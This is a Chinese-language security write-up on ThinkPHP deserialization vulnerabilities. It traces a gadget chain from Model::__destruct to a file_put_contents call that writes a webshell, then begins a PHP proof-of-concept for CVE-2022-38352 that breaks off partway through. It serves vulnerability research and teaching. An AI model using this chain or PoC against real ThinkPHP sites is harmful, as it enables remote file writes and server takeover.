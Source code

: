 入口点在 think\\Model\\ 的 **destruct () 方法进入 save () 方法进入 insertData () 方法进入 checkAllowFields () 方法进入 db () 方法执行 $query->table ($this->table . $this->suffix); 语句此时开始进入链子了，拼接对象和字符串造成 toString 魔术方法调用，think\\route 的 Url.phpif 语句一直进不去，最后跑到  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
然后进入 getDomainBind () 方法，这里设置了 domain 的值，直接进入了 Output.php 的** call () 方法：call\_user\_func\_array (\[$this, 'block'\], $args);  
Output.php 的 block () 方法 ->writeln () 方法  
$this->writeln("<{$style}>{$message}</$style>");  
Output.php 的 writeln () 方法 ->write () 方法： 
$this->write($messages, true, $type);  
此时 message 为 <getdomainbind>write () 方法  
$this->handle->write($messages, $newline, $type);  
$this->handle 被设置的 League\\Flysystem\\File, 调用它的 write () 方法 </getdomainbind>

```plain
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}
```

$this->filesystem 被设置的 think\\session\\driver\\File, 调用它的 write () 方法：最后执行 file\_put\_contents 写入木马文件

## CVE-2022-38352

### 影响版本：Thinkphp <= v6.0.13

### 介绍：

攻击者可以通过组件 League\\Flysystem\\Cached\\Storage\\Psr6Cache 包含反序列化漏洞，目前的 Thinkphp6.1.0 以上已经将 filesystem 移除了 因为此处存在好多条反序列化漏洞  
安装和前一篇文章一样，这里为了方便就用上一篇文章的 6.0.12 了

### poc:

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
```